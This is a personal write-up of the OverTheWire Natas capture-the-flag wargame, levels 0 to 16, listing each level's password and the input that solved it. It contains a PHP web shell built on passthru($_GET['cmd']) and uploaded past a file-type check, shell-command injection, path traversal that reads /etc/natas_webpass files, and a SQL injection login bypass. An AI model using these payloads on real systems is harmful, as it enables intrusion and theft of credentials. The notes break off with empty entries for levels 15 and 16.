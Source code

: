 # Web
## Natas Wargame
* level 0
  * Username: natas0
  * Password: natas0
  * [URL] (http://natas0.natas.labs.overthewire.org)
  
* level 1
  * While seeing the source code we find the flag as comment.
  * The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto

* level 2
  * While seeing the source code we find the flag as comment.
  * The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
 
* level 3
  * In source code we find a png file containing a pixel, so opening it's directory gives us the user.txt file containing flag.
  * natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* level 4
  * While seeing the source code we find the flag as comment.
  * natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* level 5
  * The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
  * Installed burp suit & foxy proxy and referrer was changed to natas5 in url the refresh gives the flag.

* level 6
  * The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
  * again in burpsuit the value of 0 turned to 1

* level 7
  * $secret = "FOEIUWGHFEEUHOFUOIU"; entering this gives
  * Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

* level 8
  * natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
  * view the link given source code.
  * encodedSecret = "3d3d516343746d4d6d6c315669563362";
  * DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
  ```php
  PHP CODE:<?
  print base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
  ?> 
  ```
  * OUTPUT: oubWYf2kBq

* level 9
  * Access granted.The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
  * ;ls  ;cat /etc/natas_webpass/natas10    giving this in the field and searching gives us  nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* level 10
  * .* /etc/natas_webpass/natas11 #   when given in the search gives us the password.
  * /etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* level 11
  * The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
  ```php
  <?
  $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sF0cIaAw');
  $text = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
  $outText = ''; 
  // Iterate through each character
  for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];}
  print $outText;
  ?>
  ```
  * Output:  qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!nJq
  ```php
  <?
  $key = 'qw8J';
  $text = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
  $outText = '';
  // Iterate through each character
  for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];}
  print base64_encode($outText);
  ?>
  ```
  * Output:  ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

* level 12
  * create an xyz.php file with contents as:
  ```php
  <?
  passthru($_GET['cmd']);
  ?>
  ```
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas13
  * jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

* level 13
  * create an ab.php file with contents as:
  ```php
  <?
  passthru($_GET['cmd']);
  ?>
  ```
  * Using hex editor did mention spaces FF D8 FF E0
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas14
  * ����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* level 14
  * sqli injection
  * Username and password given as: " or "1"="1
  * Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* level 15

* level 16
